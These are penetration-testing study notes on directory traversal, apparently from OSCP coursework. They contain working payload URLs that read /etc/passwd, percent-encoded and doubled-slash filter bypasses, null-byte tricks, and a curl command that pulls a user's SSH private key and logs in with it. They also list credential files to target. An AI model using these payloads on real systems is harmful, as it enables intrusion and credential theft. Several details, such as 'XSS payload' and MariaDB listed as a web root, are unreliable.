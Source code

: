 
Allows attackers to gain unauthorized access to files within an app or files not normally accessible through a web interface.  
This vuln occurs when input is poorly validated allowing for manipulation of file paths with _**../**_ or _**..\\**_  
  
Can be used to help facilitate [file inclusion](9.2%20-%20File%20Inclusion.md) attacks.  

#### Absolute paths
Ex (from user's home folder):   /etc/passwd
- Specifies the full file system path including all subdirectories
- Starts with a '/' to denote the root file system

#### Relative paths
Ex (from user's home folder): ../../etc/passwd
- Refer to the path of a file/ dir relatively from where you currently are
	- Ex:     ../
- Number of **../** sequences is only relevant until the root file system is reached.
- Theoretically, can add as many **../** as desired, since there is nowhere further back to go from **/**
	- Can be useful in certain situations: when we don't know our current working directory.
		- Could specify a large number of **../** to ensure we reach the root file system from a relative pathing perspective.

#### Standard web root directories

Apache
- /var/www/html/  
MariaDB
- C:/xampp/htdocs/  
Nginx
- /usr/share/nginx/html  
- /data/www/

## ID'ing

Always important to hover over all buttons and links to gather info about the page's structure and how parameters are crafted, etc.

Found by examining URL query strings and form bodies in search of values that appear as file references (inc file extensions in URL query strings)  
Ex URL:  
```html
http://target.com/cms/login.php?language=en.html
```
	Note: Site uses php ^ (most aren't this obvious)
	the *language* parameter has an HTML page as its value.  if you can successfully open it, you can canfirm that en.html is a file on the server
		and can try other file names.
	*cms* directory indicates that the web app is running in a subdirectory of the web root
	
Test if file exists on the server:
```html
http://target.com/cms/en.html
```
	If successful, means it's a file stored on the server and allows for a potential entry point for other file names
	Always examine parameters closely when they use files as a value.

Depending on the error message received after playing with the ‘file’ parameter value, we may determine the OS and be able to adjust the XSS payload to target specific files  
Ex URL:  
```html
http://target.com/menu.php?file=c:\windows\system32\drivers\etc\hosts
```


## Testing

When viewing sites and their pages URLs, noticing how parameters for viewing these pages is important.
Scrolling down to the bottom of OSCP's example site, notice a link labeled 'Admin'
![](admin_oscpsite.png)
	Hovering over reveals the link:
```html
http://mountaindesserts.com/meteor/index.php?page=admin.php
```

PHP uses **$\_GET** to manage variables via the GET request.

Clicking on the link presents us an error message stating that the page is currently under maintenance.
![](adminlink_oscpsite.png)
	This info is shown on the SAME page as the index....

Navigating to **hxxp://mountaindeserts[.]com/meteor/admin.php** will show the SAME message that was shown on the **index.php** page after clicking the 'Admin' link.

***What this indicates***  is that the webapp includes the content of the admin.php page via the *page* parameter and displays it under the 'Admin' link
	- Hints at a potentially vulnerable parameter

Can now try to use **../** to traverse directories
```html
http://mountaindesserts.com/meteor/index.php?page=../../../../../../etc/passwd
```
![](dir_traversal.png)

## Encoding Special Characters

Because leveraging **../** is a known way to abuse web application behavior, this sequence is often filtered by either the web server, web application firewalls, or the web application itself.

So we can use URL encoding (Percent encoding) to potentially bypass the filters

[ASCII encoding table](https://www.w3schools.com/tags/ref_urlencode.asp)

**..** = **%2e**
**/** = **%2F**
```html
http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

**NOTE:** URL Encoding
- The payload string may not need to be completely URL encoded.
	- Notably certain characters ( `.`, `-` and `/`) 
Although it's not always the case, this turns out to be important to the functioning of the payload.
- If any of these characters are encoded, the server will parse the URL differently, and the payload may not execute.
- This means we can't apply URL encoding across the whole payload once we've modified it.

Always test encoding/ not encoding payloads if running into errors.


### Encoding in [BurpSuite](Tools.md#BurpSuite)

BurpSuite also has a Decoder tab.

Allows for easy Encoding and Decoding for various types
- URL
- HTML
- Base64
- ASCII hex
- Hex
- Octal
- Binary
- Gzip

### Multiple ../

Also possible to use multiple sets of ../ within so that if the filter strips one set of ../ it'll leave the other.
```bash
http://192.168.50.16/cgi-bin/....//....//....//....//etc//passwd
```

## Useful directories and files

When retrieving important files (rsa private key for example), use [**curl**](OS%20Commands.md#curl) to obtain the information.
- Browsers often try to parse or optimize elements for user friendliness which could lead to issues.
- HTTP code with be returned, so only copy/ save the part you need.
	- For SSH keys, copy from **-----BEGIN OPENSSH PRIVATE KEY-----** through **-----END OPENSSH PRIVATE KEY-----** only
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../../home/offsec/.ssh/id_rsa
# copy ssh key parts only & save to a file <key_file>
# change the perms of the file to be strict
chmod 400 <key_file>
# connect via their ssh key
ssh -i <key_file> -p 2222 offsec@mountaindesserts.com
```

#### Linux  - /
- /etc/password - (get user names)
- /etc/shadow - (get user hashes)
- /etc/hosts - (get internal network mapping)
- /home/\<user>/.ssh/id_rsa - (get ssh keys from said users)
  
#### Windows  - \\
- C\:\\boot.ini
- C\:\\windows\\system32\\drivers\\etc\\hosts
- C:\\inetpub\\logs\\LogFiles\\W3SVC1\\. - (If running IIS web server, get logs)
- C:\\inetpub\\wwwroot\\web.config - (If running IIS web server, potentially get usernames or passwords)
  
  
## Null Bytes
Developers can specify the type of file it's looking for:  
```html
http://target.com/menu.php?file=/etc/passwd
<!--becomes-->
http://target.com/menu.php?file/etc/passwd.php
```
  
Adding the Null Byte _%00_ or _0x00_ to terminate the string and trick the webapp into ignoring everything else afterwards:  
```html
http://target.com/menu.php?file=/etc/passwd%00
```


*This is patched in PHP 5.3.4 and above  
  
If the files are blocked, can attempt to view them by adding a _./_ at the end:  
```html
http://target.com/menu.php?file=../../../../etc/passwd/.
```
